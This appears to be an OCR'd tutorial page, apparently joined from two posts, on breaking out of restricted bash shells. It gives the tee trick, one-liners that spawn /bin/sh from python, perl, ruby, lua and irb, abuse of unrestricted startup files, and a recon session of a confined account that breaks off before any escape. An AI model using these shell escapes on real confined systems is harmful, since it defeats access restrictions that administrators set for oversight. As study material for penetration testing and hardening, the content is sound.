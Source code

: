 Tee Command
If  you do not have access to an editor, and would like to create a script,  you can make use of the 'tee' command. Since you cannot make use of  '>' or '>>', the 'tee' command can help you direct your output  when used in tandem with the 'echo' command. This is not a shell escape  in of itself, but consider the following:
echo "evil script code" | tee script.shYou  will be able to create a file called script.sh in your home directory  and add your script code to the file. Once the file is created, use the  'tee -a' option for all subsequent commands as the '-a' allows you to  append to the file rather than overwrite the file.

Favorite Language?
Try invoking a SHELL through your favorite language:
• python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
• perl -e 'exec "/bin/sh";'
• perl: exec "/bin/sh";
• ruby: exec "/bin/sh"
• lua: os.execute('/bin/sh')
• irb(main:001:0> exec "/bin/sh"
Most likely, you will not be able to execute any of these, but it's worth a shot in case they're installed.
Files Executed in Unrestricted Mode?
Some  restricted shells will start by running some files in an unrestricted  mode before the restricted shell is applied. If your .bash_profile is  executed in an unrestricted mode and it's editable, you'll be able to  execute code and commands as an unrestricted user.


============================================================================

There's a lot of documentation out there on escaping secure shell, a lot of common techniques like launching bash from within vi/vim. However, getting to that point can sometime be the trick. Here's something I haven't seen on any other site.

First up, recon!

Last login: Thu Oct 20 13:43:17 2011 from lcd01.local
confined1@someserver:~$ cd /
-rbash: cd: restricted
confined1@someserver:~$ ls -al
total 20
drwx------ 4 confined1 users 4096 2011-10-28 15:38 .
drwxr-xr-x 6 root        root  4096 2008-11-13 16:54 ..
-rw-r--r-- 1 root        root    40 2008-11-13 18:06 .bashrc
dr-xr-xr-x 2 root        root  4096 2007-09-12 11:50 bin
drwx------ 2 confined1 users 4096 2011-10-28 15:38 .cache
lrwxrwxrwx 1 root        root     7 2008-11-13 10:22 .profile -> .bashrc
confined1@someserver:~$ ls -al ~/bin
total 140
dr-xr-xr-x 2 root        root   4096 2007-09-12 11:50 .
drwx------ 4 confined1 users  4096 2011-10-28 15:38 ..
-rwxr-xr-x 1 root        root  77844 2007-03-05 07:25 ls
-rwxr-xrwx 1 root        root  30848 2007-03-05 05:25 ping
-rwxr-xr-x 1 root        root  14268 2007-03-05 07:25 tee
confined1@someserver:~$ touch test.sh
-rbash: /usr/bin/python: restricted: cannot specify `/' in command names
confined1@someserver:~$ vim
-rbash: /usr/bin/python: restricted: cannot specify `/' in command names
confined1@someserver:~$ export
declare -x HOME="/home/confined1"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="confined1"
declare -x MAIL="/var/mail/confined1"
declare -x OLDPWD
declare -rx PATH="/home/confined1/bin"
declare -x PWD="/home/confined1"
declare -rx SHELL="/bin/rbash"
declare -x SHLVL="1"